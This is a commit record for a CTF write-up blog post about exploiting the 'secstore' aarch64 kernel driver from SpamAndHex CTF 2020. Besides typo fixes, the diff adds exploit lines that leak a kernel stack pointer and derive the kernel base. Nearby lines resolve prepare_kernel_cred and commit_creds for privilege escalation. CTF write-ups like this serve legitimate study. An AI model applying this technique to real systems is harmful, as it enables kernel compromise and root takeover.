

Before and after one commit to pwnfirstsearch/pwnfirstsearch.github.io, a Jekyll site: the page built from _posts/2020-05-10-spamandhexctf2020-secstore.md, in a window 1280 px wide and 900 px high, scrolled down 6328 px. Shown: the whole window, without its empty margins (278-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update some typos

````diff
--- a/_posts/2020-05-10-spamandhexctf2020-secstore.md
+++ b/_posts/2020-05-10-spamandhexctf2020-secstore.md
@@ -16,7 +16,7 @@ tags: [kernel, aarch64, qemu]
     our product that we are releasing everything a bounty hunter might need for a
     successful audit.
 
-we are given a tarball with a compiled `qemu-system-aarch64`, an initrd, some
+We are given a tarball with a compiled `qemu-system-aarch64`, an initrd, some
 scripts, and a patch and C file. A quick glance at the C file reveals that it is
 a kernel driver.
 
@@ -62,7 +62,7 @@ ctrl is taken from the user, but it is unconditionally set on line 164:
     items[i].ctrl = PL666_LLI_MORE;
 ```
 
-Ultimately, the lli buffer will be handed directly to the DMA engine, and the
+Ultimately, the LLI buffer will be handed directly to the DMA engine, and the
 `LLI_MORE` flag indicates that there are more entries in the LLI array. The final
 entry gets the `LLI_MORE` flag unset on line 176:
 ```c
@@ -256,6 +256,9 @@ besides me.
 
 Resolve the needed kernel functions:
 ```c
+    uint64_t * kstack_leak = read_kernel(secfd, 0xffff800010003758, 16);
+    printf("##\t%p:%p (%p)\n",0xffff800010003758, kstack_leak[0], kstack_leak[0] - 0x8b8d38);
+    uint64_t kernel_base         = kstack_leak[0] - 0x8b8d38;
     uint64_t prepare_kernel_cred = kernel_base + 0x696a8;
     uint64_t commit_creds        = kernel_base + 0x693e0;
     uint64_t __arm64_sys_ptrace  = kernel_base + 0x49c88;
````
